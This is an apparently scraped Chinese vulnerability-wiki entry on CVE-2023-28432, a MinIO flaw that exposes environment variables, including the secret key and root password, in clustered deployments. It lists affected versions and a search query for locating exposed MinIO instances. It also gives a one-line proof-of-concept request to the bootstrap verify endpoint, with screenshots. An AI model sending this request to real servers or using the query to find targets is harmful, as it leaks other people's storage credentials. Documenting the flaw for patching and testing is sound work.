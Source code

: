 # MinIO verify 敏感信息泄漏漏洞 CVE-2023-28432

## 漏洞描述

Minio 是一个多云对象存储框架。在从RELEASE.2019-12-17T23-16-33Z开始到RELEASE.2023-03-20T20-16-18Z之前的集群部署中，MinIO存在漏洞发送请求后返回所有环境变量，包括MINIO_SECRET_KEY和MINIO_ROOT_PASSWORD，导致信息泄露。分布式部署的所有用户都会受到影响

## 漏洞影响

<a-checkbox checked>MinIO <= RELEASE.2023-03-20T20-16-18Z</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="minio"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1679976896036-1e230da8-12ab-4e6a-9681-d35b78c573a5.png)

验证POC (默认端口:9000)

```javascript
POST /minio/bootstrap/v1/verify
```

![img](/assets/PeiQi-Wiki/img/1679976986271-1b32d86d-2c4b-47cb-9a33-8c8e91fce7f6.png)